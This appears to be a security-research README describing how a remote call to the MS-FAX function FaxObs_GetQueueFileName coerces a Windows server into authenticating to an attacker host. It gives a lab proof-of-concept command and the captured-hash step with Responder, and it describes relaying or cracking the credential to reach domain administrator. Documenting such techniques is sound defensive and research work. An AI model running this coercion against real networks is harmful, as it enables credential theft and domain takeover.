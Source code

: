 # MS-FAX - Remote call to FaxObs_GetQueueFileName (opnum 6)

## Summary

+ **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

+ **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\SHAREDFAX`

+ **Function name**: [`FaxObs_GetQueueFileName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00)

+ **Function operation number**: `6`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FaxObs_GetQueueFileName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FaxObs_GetQueueFileName('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FaxObs_GetQueueFileName(
   [in] handle_t hBinding,
   [in, out, unique, size_is(FileNameSize)] 
     LPWSTR FileName,
   [in] DWORD FileNameSize
 );
```

## References

+ Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

+ Documentation of function `FaxObs_GetQueueFileName`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21d0c234-8dca-4f96-b7ea-2bdce029ee00